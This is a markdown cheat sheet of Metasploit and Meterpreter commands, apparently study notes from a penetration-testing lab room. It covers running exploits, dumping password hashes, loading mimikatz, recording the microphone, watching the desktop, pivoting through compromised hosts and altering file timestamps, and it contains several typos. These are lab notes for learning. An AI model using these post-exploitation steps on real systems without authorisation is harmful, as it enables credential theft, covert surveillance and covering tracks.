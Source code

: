 # MetaSploit

## Commands for ice room

### Initializing
~~~
msfdb init (initialises database)
msfdb reinit (delete and reinitialize the database)
db_status (status of database)
~~~

### Rock 'em to the Core 
~~~
search (search for modules)
use (use a module)
info (info on a module)
connect (netcat like, quick connections)
set (sets value of variable)
setg (sets global variables)
get (view a single variable)
spool (set console output to a save file)
save (saves previously set values)
unset (changing a value to null)
~~~

### Modules for Ever Occasion 

Modules

- exploit
Holds all the exploit code.

- payload
Contains payload code.

- auxilliary 
Module used in scanning and verfication.

- post
Module allows to loot and piviot after gaining access.  

- nop
Buffer overflow and ROP (Return Oriented Programming) attack modules 

- load
Loads modules that are not loaded by default

### Move that shell! 

~~~
db_nmap (runs nmap in metasploit)
vulns (shows vulnerabilities that metasploit has found, seems different from nmap script=vulns)
set LHOST (set IP of listening machine)
set RHOST (set IP of target)
expolit (runs exploit)
run -j (runs as a job) 
~~~

### We're in, now what?

Commands when we have meterpreter shell
~~~
ps (lists processes)
migrate <PID> (moves to another process)
getuid (lists current user)
sysinfo (more information out the the system)
getprivs (gets the privileges of the user)
load kiwi (loads mimikatz)
upload (uploads files to computer)
run post/windows/gather/checkvm (checks if the target is a vm)
run post/multi/recon/local_exploit_suggester (checks for exploits to elevate privileges)
run post/windows/manage/enable_rdp (enables remote desktop)
~~~
 
### Makin' Cisco Proud 

~~~
run autoroute (creates a new route through a meterpreter shell to piviot deeper into network)
run autoroute -s <sub-net IP> -n <subnet mask IP> (creates route to sub-net).
use auxiliary/server/socks_proxy (starts socks5 server)
proxychains (run outside of metaspolit, run commands through socks5 server if config /etc/proxychains.conf 
~~~

### Useful commands

~~~
jobs -v (list all jobs)
bg/ctrl + z (backgrounds current session)
sessions -i* (lists all the background sessions) 
shell (gets a normal shell, ctrl + d returns to meterpreter shell)
~~~

## Post exploit commands

~~~
hashdump (dump all of the password hashes stored on the system)
screenshare (watch the remote user's desktop in real time)
record_mic (record microphone from user)
timestop (modify timestamps of files on system)
~~~
